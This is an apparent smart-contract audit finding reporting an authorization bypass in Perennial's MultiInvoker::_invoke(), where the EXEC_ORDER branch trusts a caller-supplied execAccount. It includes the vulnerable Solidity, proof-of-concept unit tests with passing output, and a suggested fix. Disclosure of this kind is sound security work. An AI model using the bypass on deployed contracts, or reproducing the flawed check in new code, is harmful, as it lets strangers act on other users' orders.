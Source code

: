 Spare Yellow Alpaca

medium

# The `PerennialAction.EXEC_ORDER` branch authentication in `MultiInvoker::_invoke()` is invalid. Anyone can bypass the verification and execute other people's orders.

## Summary
The `PerennialAction.EXEC_ORDER` branch authentication in `MultiInvoker::_invoke()` is invalid. Anyone can bypass the verification and execute other people's orders.
## Vulnerability Detail
The `MultiInvoker::_invoke()` method verifies the msg.sender permission through the `address account` parameter, but when the program executes the `PerennialAction.EXEC_ORDER` branch, the `execAccount` parameter called by `_executeOrder()` is passed by `Invocation[] calldata With invocations` provided, previous verification becomes meaningless and anyone can execute other people's orders.
```js
    function _invoke(address account, Invocation[] calldata invocations) private {
@>        if (msg.sender != account && !operators[account][msg.sender]) revert MultiInvokerUnauthorizedError();


        for(uint i = 0; i < invocations.length; ++i) {
            Invocation memory invocation = invocations[i];


            if (invocation.action == PerennialAction.UPDATE_POSITION) {
                (
                    // update data
                    IMarket market,
                    UFixed6 newMaker,
                    UFixed6 newLong,
                    UFixed6 newShort,
                    Fixed6 collateral,
                    bool wrap,
                    InterfaceFee memory interfaceFee1,
                    InterfaceFee memory interfaceFee2
                ) = abi.decode(invocation.args, (IMarket, UFixed6, UFixed6, UFixed6, Fixed6, bool, InterfaceFee, InterfaceFee));


                _update(account, market, newMaker, newLong, newShort, collateral, wrap, interfaceFee1, interfaceFee2);
            } else if (invocation.action == PerennialAction.UPDATE_VAULT) {
                (IVault vault, UFixed6 depositAssets, UFixed6 redeemShares, UFixed6 claimAssets, bool wrap)
                    = abi.decode(invocation.args, (IVault, UFixed6, UFixed6, UFixed6, bool));


                _vaultUpdate(account, vault, depositAssets, redeemShares, claimAssets, wrap);
            } else if (invocation.action == PerennialAction.PLACE_ORDER) {
                (IMarket market, TriggerOrder memory order) = abi.decode(invocation.args, (IMarket, TriggerOrder));


                _placeOrder(account, market, order);
            } else if (invocation.action == PerennialAction.CANCEL_ORDER) {
                (IMarket market, uint256 nonce) = abi.decode(invocation.args, (IMarket, uint256));


                _cancelOrder(account, market, nonce);
@>            } else if (invocation.action == PerennialAction.EXEC_ORDER) {
@>                (address execAccount, IMarket market, uint256 nonce)
                    = abi.decode(invocation.args, (address, IMarket, uint256));


@>                _executeOrder(execAccount, market, nonce);
            } else if (invocation.action == PerennialAction.COMMIT_PRICE) {
                (address oracleProviderFactory, uint256 value, bytes32[] memory ids, uint256 version, bytes memory data, bool revertOnFailure) =
                    abi.decode(invocation.args, (address, uint256, bytes32[], uint256, bytes, bool));


                _commitPrice(oracleProviderFactory, value, ids, version, data, revertOnFailure);
            } else if (invocation.action == PerennialAction.APPROVE) {
                (address target) = abi.decode(invocation.args, (address));


                _approve(target);
            }
        }
        // ETH must not remain in this contract at rest
        Address.sendValue(payable(account), address(this).balance);
    }
```

### Poc
Please add the code to `packages/perennial-extensions/test/unit/MultiInvoker/MultiInvoker.test.ts` -> `'#trigger orders''` branch, and execute after creating `user3`
```js
            it("anyone can execute other people's orders: executes a long limit order", async () => {
              // long limit: mkt price <= exec price
              const trigger = openTriggerOrder({
                delta: position,
                price: BigNumber.from(1200e6),
                side: Dir.L,
                comparison: Compare.ABOVE_MARKET,
              })

              const placeOrder = buildPlaceOrder({
                market: market.address,
                collateral: collateral,
                order: trigger,
              })
              await expect(invoke(placeOrder)).to.not.be.reverted

              const execOrder = buildExecOrder({ user: user.address, market: market.address, orderId: 1 })
              // user3 calls invoke()
              await expect(
                multiInvoker.connect(user3)['invoke(address,(uint8,bytes)[])'](user3.address, execOrder),
              ).to.emit(multiInvoker, 'KeeperCall')
            })

            it("anyone can execute other people's orders: executes a short limit order", async () => {
              // set short position in market
              const triggerOrder = openTriggerOrder({
                delta: position,
                price: BigNumber.from(1000e6),
                side: Dir.S,
                comparison: Compare.BELOW_MARKET,
              })

              // short limit: mkt price >= exec price
              const placeOrder = buildPlaceOrder({
                market: market.address,
                collateral: collateral,
                order: triggerOrder,
              })

              await invoke(placeOrder)

              const execOrder = buildExecOrder({ user: user.address, market: market.address, orderId: 1 })
              // user3 calls invoke()
              await expect(
                multiInvoker.connect(user3)['invoke(address,(uint8,bytes)[])'](user3.address, execOrder),
              ).to.emit(multiInvoker, 'KeeperCall')
            })
            // MultiInvoker
            // #trigger orders
            // ✔ anyone can execute other people's orders: executes a long limit order (2105ms)
            // ✔ anyone can execute other people's orders: executes a short limit order (2830ms)
            // MultiInvoker_Arbitrum
            // #trigger orders
            // ✔ anyone can execute other people's orders: executes a long limit order (3546ms)
            // ✔ anyone can execute other people's orders: executes a short limit order (3769ms)
            // MultiInvoker_Optimism
            // #trigger orders
            // ✔ anyone can execute other people's orders: executes a long limit order (5190ms)
            // ✔ anyone can execute other people's orders: executes a short limit order (5356ms)
```
## Impact
The `PerennialAction.EXEC_ORDER` branch authentication in `MultiInvoker::_invoke()` is invalid. Anyone can bypass the verification and execute other people's orders.
## Code Snippet
https://github.com/sherlock-audit/2024-05-kwenta-x-perennial-integration-update/blob/8e82cd7de2b8d338cd860f670f50c1a96c397bc6/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L140-L191
## Tool used

Manual Review

## Recommendation
Choose to verify again that `execAccount` and `address account` are equal. Or directly use `address account` to replace `execAccount`
